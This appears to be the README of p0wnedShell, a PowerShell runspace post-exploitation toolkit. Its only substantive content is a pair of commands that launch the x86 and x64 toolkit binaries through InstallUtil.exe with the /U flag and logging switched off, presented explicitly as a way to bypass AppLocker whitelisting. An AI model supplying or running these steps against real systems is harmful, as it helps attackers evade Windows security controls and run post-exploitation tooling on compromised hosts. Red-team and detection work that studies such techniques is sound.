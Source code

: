 # p0wnedShell
PowerShell Runspace Post Exploitation Toolkit 

Author: Cn33liz

License: BSD 3-Clause

To run as x86 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx86.exe

To run as x64 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx64.exe

